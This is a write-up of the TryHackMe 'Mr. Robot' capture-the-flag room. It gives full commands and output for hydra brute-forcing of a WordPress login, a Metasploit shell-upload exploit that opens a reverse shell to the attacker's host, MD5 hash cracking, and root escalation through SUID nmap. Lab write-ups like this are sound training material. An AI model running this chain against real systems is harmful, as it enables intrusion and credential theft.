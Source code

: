 # Mr. Robot

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [Mr. Robot](https://tryhackme.com/room/mrrobot).

## Flag 1

Let's have a look at the environment:

```sh
IP="10.10.236.216"
nmap -sC -sV $IP
nikto -h $IP
```

Since there is a php based website served on port 80 and 443 via apache let us have a look at the available folders:

```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP:80
```

We can see a lot of folders and that there is a wordpress login page.

Further things we can check:

- View html/css/js source -> nothing special
- View links on page -> text, videos, nothing special (but cool theme)
- View robots.txt -> first flag :)

In the robots.txt we find the first key ($IP/key-1-of-3.txt) and a dictionary file (probably for wordpress login @ $IP/login).

## Flag 2

Let's download the dictionary file "fsocity.dic" and have a look:

```sh
wget $IP/fsocity.dic
```

The file seems to be a password list but there are a lot of redundant entries. If we want to use this to brute-force login to the word-press admin portal we should remove all duplicate entries. We can use ```uniq``` for this but uniq expects a sorted list so we run the following:

```sh
sort fsocity.dic | uniq > uniqfsocity.dic
```

We can use hydra to brute-force http-post-form on the wordpress login page to find out the username. In case we get a "Invalid" the attempt failed.

```sh
hydra -L uniqfsocity.dic -p something $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid"
```

We find out the username "Elliot" is valid and abort hydra. Now let's use the same dictionary again to brute-force the password of Elliot. If a correct user logs in with an invalid password we can use "incorrect" as false trigger.

```sh
hydra -l Elliot -P uniqfsocity.dic -t 64 $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect."
```

This unfortunately takes some time but after a while we get the correct password for Elliot: ER28-0652

With access to the wordpress backend we can start Metasploit to exploit wordpress for a reverse shell:

```sh
msfdb init
msfconsole
db_nmap -sV 10.10.236.216
search wp
use exploit/unix/webapp/wp_admin_shell_upload
show options
set PASSWORD ER28-0652
set USERNAME Elliot
set RHOST 10.10.236.216
set LHOST 10.9.193.173
set LPORT 6666
show options
exploit
```

Unfortunantly I get an error running this saying wordpress is not available.
After seaching the web I find out possibly we can just ignore those errors in the used script. So lets open the script and comment out what stops the script and see what happens:

```sh
locate wp_admin_shell_upload  
sudo nano /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb # comment out def exploit -> #fail_with
```

and run the exploit once more:

```sh
reload
exploit
```

I now get a new error so i just comment out all "fail_with" after "def exploit" and re-run the exploit once more:

```sh
reload
show options
exploit
```

Finally the exploit works and we have a reverse shell :)
Now let's look around:

```sh
meterpreter > ls
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 02:28:21 -0500  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 02:28:21 -0500  password.raw-md5
```

We see key 2 "key-2-of-3.txt" but can't access it. However, we can access "password.raw-md5":

```sh
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

This looks like the hashed password of user "robot". Let's find out what hash type is used by running ```hash-identifier```.

```sh
hash-identifier c3fcd3d76192e4007dfb496cca67e13b

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Let's crack the MD5 hash with ```hashcat``` using the rockyou password list.

```sh
hashcat -m0 --force c3fcd3d76192e4007dfb496cca67e13b /home/0xfab1/rockyou.txt

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /home/0xfab1/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 3 secs

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Guess.Base.......: File (/home/0xfab1/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   313.5 kH/s (0.32ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344384 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 36864/14344384 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: hockey5 -> loser69
```

The password for robot is abcdefghijklmnopqrstuvwxyz.
So back to the reverse shell and lets login as user "robot":

```sh
meterpreter > shell
Process 2226 created.
Channel 4 created.
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su -l robot
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
cat /home/robot/key-2-of-3.txt
```

We now have access to "key-2-of-3.txt".

## Flag 3

Now as robot let us have a look at what we are allowed to do:

```sh
find / -user root -perm -4000 2>/dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

We can exploit nmap (/usr/local/bin/nmap) with a vulnerability in the interactive mode since nmap is running with root privileges but we can trigger it as user robot:

```sh
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
cd /root
ls
firstboot_done  key-3-of-3.txt
cat key-3-of-3.txt
```

And there we have flag 3.
